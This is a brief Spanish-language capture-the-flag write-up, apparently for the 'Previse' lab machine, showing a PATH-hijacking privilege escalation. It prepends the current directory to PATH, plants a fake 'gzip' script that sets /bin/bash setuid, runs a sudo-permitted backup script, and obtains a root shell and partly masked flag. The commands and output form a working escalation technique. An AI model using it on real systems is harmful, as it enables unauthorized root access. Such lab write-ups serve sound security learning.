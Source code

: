 Procedo a realizar un Path Hijacking:
```
m4lwhere@previse:~$ export PATH=.:$PATH
m4lwhere@previse:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:~$ touch gzip
m4lwhere@previse:~$ chmod +x gzip
```
He puesto como inicio del path mi ruta actual.  
Dentro de mi script gzip pondré esto:
``` bash
#!/bin/bash

chmod 4755 /bin/bash
```
Por último ejecuto el script con el privilegio sudo:
```
m4lwhere@previse:~$ sudo -u root /opt/scripts/access_backup.sh

m4lwhere@previse:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash

m4lwhere@previse:~$ bash -p
bash-4.4# whoami
root
```
Ueueueueuue soooyyy roooot!!!!!!. Como me mola el path hijacking.

Consigo la flag de root:
```
bash-4.4# cat /root/root.txt
0a591826de5233735c05dd*******
``` 
Fin.





 















